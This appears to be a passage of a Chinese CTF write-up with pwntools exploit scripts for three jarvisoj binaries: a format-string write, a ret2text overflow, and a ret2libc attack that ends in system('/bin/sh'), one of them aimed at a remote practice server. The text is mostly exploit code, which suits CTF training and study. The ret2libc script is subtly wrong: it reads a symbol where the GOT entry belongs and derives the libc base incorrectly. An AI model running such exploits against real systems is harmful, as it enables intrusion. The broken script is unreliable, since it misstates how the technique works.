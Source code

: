 

## 0x1A.jarvisoj_fm

格式化字符串。是第11个。

p32(x_addr) + "%11$n" 意思是将x_addr写入11的位置。

```python
from pwn import *
context(log_level='debug')
#io = process("./fm")
io = remote("node3.buuoj.cn",26157)
x_addr = 0x0804A02C
payload = p32(x_addr) + "%11$n"
io.sendline(payload)
io.interactive()
```

## 0x1B.jarvisoj_tell_me_something

简单的ret2text

```python
from pwn import *
context(log_level='debug')
io = process("./guestbook")
fun_add = 0x400620
io.recv()
payload = 'a'*(0x88)+ p64(fun_add)
io.sendline(payload)
io.recv()
io.interactive()
```



## 0x1C.jarvisoj_level4

ret2libc

```python
from pwn import *
context(log_level='debug')
io = process("./level4")
elf = ELF("./level4")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
write_got = elf.sym['write']
main_addr = elf.sym['main']
payload = 'a'*(0x88+4)+ p32(write_plt) + p32(main_addr) + p32(1)+p32(write_got) + p32(4)
io.sendline(payload)
write_add = u32(io.recv(4))

print write_add

base = write_add - write_got
sys_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()

payload = 'a'*(0x88+4) + p32(sys_add)+ p32(main_addr)+ p32(bin_sh)

io.sendline(payload)
io.interactive()
```

